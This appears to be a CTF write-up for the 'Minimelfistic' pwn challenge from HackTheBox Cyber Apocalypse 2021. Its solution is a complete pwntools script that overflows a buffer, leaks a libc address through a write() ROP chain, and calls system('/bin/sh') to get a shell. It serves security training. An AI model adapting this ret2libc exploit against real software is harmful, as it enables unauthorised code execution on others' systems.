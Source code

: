 ```yaml
---
name: Minimelfistic (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Pwn
description: Writeup for Minimelfistic (Pwn) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Minimelfistic

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/JJD45W-C9mQ/0.jpg)](https://youtu.be/JJD45W-C9mQ?t=2169s "HTB Cyber Apocalypse CTF 2021: Minimelfistic")

## Challenge Description

> The Elves finally understood what went wrong with all their plans. They were too fancy and obvious! But, this one is different.. It's a security system, but the alarm rings whenever Santa's house is vulnerable to an attack. Will you manage to deactivate it? p.s. Sound on!

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './minimelfistic'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Lib-C library
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')  # Local
libc = ELF('libc.so.6')  # Remote

# Pass in pattern_size, get back EIP/RIP offset
offset = 72

ret = 0x400616  # Stack alignment

# Start program
io = start()

# Create a ROP object to handle complexities
rop = ROP(elf)

# Payload to leak libc function
# No puts() so use write()
rop.banner()
rop.write(1, elf.got.write)
rop.main()

# We need the '9' or we won't get out of infinite loop
payload = flat([
    b'9' + (asm('nop') * (71)),
    rop.chain()
])

# Send the payload
io.sendlineafter(b'>', payload)

io.recvlines(41)  # the banner

# Retrieve got.write address
got_write = unpack(io.recvline()[:6].ljust(8, b"\x00"))
info("leaked got_write: %#x", got_write)

# Subtract write offset to get libc base
libc.address = got_write - libc.symbols.write
info("libc_base: %#x", libc.address)

# Reset ROP object with libc binary
rop = ROP(libc)

# Call ROP system, passing location of "/bin/sh" string
rop.system(next(libc.search(b'/bin/sh\x00')))

# We need the '9' or we won't get out of infinite loop
payload = flat([
    b'9' + (asm('nop') * (offset - 1)),
    ret,
    rop.chain()
])

# Send the payload
io.sendlineafter(b'>', payload)

# Got Shell?
io.interactive()
```
{% endcode %}
